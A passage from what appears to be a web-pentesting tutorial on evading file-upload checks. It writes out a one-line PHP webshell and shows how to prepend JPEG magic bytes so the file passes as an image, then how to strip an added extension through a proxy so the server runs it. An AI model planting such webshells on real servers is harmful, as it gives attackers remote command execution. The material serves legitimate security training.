 We can try adding the [`JPG` magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to our webshell using a tool such as `hexedit` or [`hexeditor`](https://www.kali.org/tools/ncurses-hexedit/) (Figure 6), which might trick the system into uploading it.

```bash
# original webshell
$ cat webshell.php
<?php system($_GET['cmd']); ?>
# system recognizes as a PHP script
$ file webshell.php
webshell.php: PHP script, ASCII text
$ file --mime-type webshell.php
../user-content/webshell.php: text/x-php
# add 4 random bytes at the start of it
$ cat webshell.php
AAAA<?php system($_GET['cmd']); ?>
# change the 4 bytes to FF D8 FF E0
$ hexeditor webshell.php
```

<figure><img src="../.gitbook/assets/web_fileUpload_serverSide_2.png" alt=""><figcaption><p>Figure 6: Editing the file's magic bytes.</p></figcaption></figure>

Next, we can check if the file is now recognized as an image file instead of a PHP script.

```bash
# confirm the change
$ cat webshell.php
����<?php system($_GET['cmd']); ?>
# system recongizes as a JPEG file
$ file webshell.php
webshell.php: JPEG image data
$ file --mime-type webshell.php
webshell.php: image/jpeg
```

To upload the shell we must first bypass the client-side extension filter by adding an image extension to the file and then remove that extension via our proxy, so the server is able to execute it (Figure 7).
